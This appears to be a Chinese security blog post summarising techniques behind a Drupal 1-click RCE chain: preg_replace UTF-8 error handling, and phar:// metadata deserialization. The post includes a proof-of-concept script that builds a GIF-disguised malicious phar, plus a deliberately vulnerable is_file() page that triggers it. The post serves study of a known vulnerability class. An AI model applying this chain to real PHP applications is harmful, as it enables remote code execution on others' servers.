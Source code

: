 ```yaml
---
title: Drupal 1-click to RCE漏洞利用的三个小技巧
date: 2019-04-22 22:15:48
tags:
---
```


在[Seebug](https://paper.seebug.org)上看到的《[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)》这篇关于Drupal的漏洞分析，感觉很精彩，用到了三个很有意思的技巧点。

自己总结一下：

### 1. preg_replace() /u 模式下的 PREG_BAD_UTF8_ERROR
PHP官网对于`/u`通配符的解释是：

```
u (PCRE_UTF8)
此修正符打开一个与 perl 不兼容的附加功能。 模式和目标字符串都被认为是 utf-8 的。 无效的目标字符串会导致 preg_* 函数什么都匹配不到； 无效的模式字符串会导致 E_WARNING 级别的错误。 PHP 5.3.4 后，5字节和6字节的 UTF-8 字符序列被考虑为无效（resp. PCRE 7.3 2007-08-28）。 以前就被认为是无效的 UTF-8。
```

就是说如果遇到非法的ut-8字符，会导致函数什么都匹配不到，最终返回null。

如果文件名中，如果出现了\x80到\xff的字符时，PHP就会抛出PREG_BAD_UTF8_ERROR。

测试代码：

```
<?php
$test = "hello";
$subject = "Hello world".$_GET['a'];
$a = preg_replace("/\d/u", $test, $subject);
var_dump($a);
```
传递正常字符，页面返回正常：

![](/uploads/drupal2.png)

当传递的参数为`a=%fe`，`$a`返回`null`。

![](/uploads/drupal3.png)


### 2. HTML 当中a标签可以设置打开文件的type

这个目前还没搞明白，因为测试的时候发现：除了IE会执行，其它的（Firefox和Chrome）都是提示下载。

### 3. phar反序列化RCE
2018年BlackHat大会上的Sam Thomas分享的File Operation Induced Unserialization via the “phar://” Stream Wrapper议题，[原文地址](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf )。

提到PHP反序列化漏洞(PHP对象注入)，以前是如下思路：
1. 寻找`unserialize($param)`方法,溯源`$param`是否可控。
2. 如果`$param`可控，再去寻找可以被注入的危险对象。
3. 构造POP链，生成恶意反序列化字符串，实现代码注入，达到目的。

明显条件[1]作为前提，如果条件[1]不成立，那么后面无法进行。

phar反序列化RCE 为[1]实现了另外一个入口。

《[利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)》这篇文章分析的很好。

phar 文件允许用户自定义`meta-data`文件头，而在phar文件内部，这个的存储恰好是序列化格式。

**php大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化**。

测试一下：

http://localhost/create.php

```
<?php

class DangerClass{

    public $_fn_close = "phpinfo";

    public function __destruct()
    {
        call_user_func($this->_fn_close);
    }
}

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头，这里是为了后盖后缀名图片格式绕过
$o = new DangerClass();
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```
用以上脚本生成恶意的phar文件,注意需要先修改php.ini 设置 `phar.readonly = Off`。因为安全问题，只能修改php.ini设置，在php脚本当中通过`ini_set()`直接设置不成立。

存在漏洞代码如下：

http://localhost/test.php

```
<?php

class DangerClass{

    public $_fn_close = "phpinfo";

    public function __destruct()
    {
        call_user_func($this->_fn_close);
    }
}

if(isset($_GET['file']) && is_file($_GET['file']))
{
	echo "exists.";
}
else
{
	echo "No file.";
}
?>
```

访问 `http://localhost/test.php?file=phar://phar.phar` 触发PHPinfo()。
![](/uploads/drupal1.png)

以上反序列化漏洞的触发点是函数`is_file()`，其内部对phar文件的`meta-data`进行了反序列化，触发了漏洞。

**php大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化**。

注：phar是php 5.3以后的功能。

### 参考

[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)

[利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)

[A SERIES OF UNFORTUNATE IMAGES: DRUPAL 1-CLICK TO RCE EXPLOIT CHAIN DETAILED](https://www.zerodayinitiative.com/blog/2019/4/11/a-series-of-unfortunate-images-drupal-1-click-to-rce-exploit-chain-detailed)